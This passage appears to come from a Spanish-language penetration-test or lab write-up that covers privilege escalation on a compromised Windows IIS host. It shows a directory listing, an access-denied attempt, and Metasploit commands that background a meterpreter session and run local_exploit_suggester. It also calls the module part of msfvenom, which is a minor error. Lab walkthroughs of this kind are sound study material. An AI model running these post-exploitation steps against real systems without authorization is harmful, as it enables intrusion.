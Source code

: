 Desde este momento, dispongo de algunos privilegios en el sistema. 
Vamos a intentar escalar privilegios. 
Navegando por el sistema vulnerado, encuentro una carpeta con los siguientes directorios:

```cmd-session
c:\Inetpub>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               4 Dir(s)  18,125,160,448 bytes free


c:\Inetpub>cd AdminScripts

cd AdminScripts
Access is denied.
```

Sin embargo, no puedo acceder a la carpeta "AdminScripts" debido a que no cuento con los permisos suficientes. 

Existe una módulo de msfvenom que es el "local_exploit_suggester". Vamos a poner en background la sesión de meterpreter actual ejecutando:
```
meterpreter > background     (o "bg" tambíen podría escribir)
```

Ejecuto un:
```
msf6 > search local_exploit_suggester
```

Pues, lo seleccióno, establezco la sessión de meterpreter abierta (la podría consultar con "sessions -l" y le doy a run):
 ```
 use 0                # para utilizar el local_exploit_suggester
 set session 1        # para decirle contra que sesión de meterpreter quiero utilizar este módulo
 run
 ```

Esto nos devuelve una salida con varias opciones que podríamos probar:
```shell-session
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
```